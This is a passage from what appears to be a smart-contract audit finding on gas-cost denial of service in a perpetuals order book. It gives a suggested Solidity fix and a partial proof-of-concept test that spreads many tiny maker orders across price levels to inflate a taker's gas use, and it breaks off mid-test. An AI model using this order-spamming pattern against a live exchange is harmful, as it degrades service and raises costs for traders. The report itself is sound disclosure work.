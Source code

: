 ``` solidity
if (incomingOrder.amount >= limit.totalBase) {
    // fill entire price level in O(1)
    incomingOrder.amount -= limit.totalBase;
    baseReceived += limit.totalBase;
    quoteSent   += limit.totalQuote;
    _clearLimit(limit); // remove all orders at this tick
} else {
    // fall back to per-order iteration for partial fill
    _matchOrdersIndividually(ds, limit, incomingOrder);
}

```
`Note:` Note: Batched settlement must still preserve per-maker effects (fees, reduceOnly, processMakerFill semantics).

## Poc
- The PoC deploys 40 maker orders of 0.001 ETH each at consecutive price levels (3900 → 3939 USDC/ETH).
- A single taker buy order large enough to consume all liquidity is then placed.
- The gas usage logged is ~6.28M, showing linear growth with the number of price levels traversed.
- At realistic gas prices, this cost exceeds or significantly eats into trade value, proving the DoS potential.
- Test config: tickSize=0.001, lotSize=0.001, minLimitOrderAmountInBase=0.001, maxNumOrders=1_000_000

Paste this test in File Location: 2025-08-gte-perps/test/c4-poc/PoCPerps.t.sol

```solidity
import "../../contracts/perps/types/Structs.sol";

    function test_submissionValidity() public {
        bytes32 asset = ETH;
        uint256 baseLot = perpManager.getLotSize(asset);
        uint256 startPrice = _conformTickEth(3900e18);

        uint256 numMakers = 40; // number of price levels to fill
        uint256 orderAmount = baseLot; // 1 lot per price level

        // -------------------------------
        // Step 1: Place multiple maker orders across price levels
        // -------------------------------
        for (uint256 i = 0; i < numMakers; i++) {
            address maker = address(uint160(uint256(keccak256(abi.encodePacked("makerMulti", i)))));
            _mintAndApproveAndDeposit(maker, 1_000_000e18);

            uint256 price = startPrice + (i * perpManager.getTickSize(asset)); // increasing prices each tick

            PlaceOrderArgs memory makerArgs = PlaceOrderArgs({
                subaccount: 0,
                asset: asset,
                side: Side.SELL, // makers are selling
                limitPrice: price,
                amount: orderAmount,
                baseDenominated: true,
                tif: TiF.MOC, // maker only
                expiryTime: 0,
                clientOrderId: 0,
                reduceOnly: false
            });

            vm.startPrank(maker);
```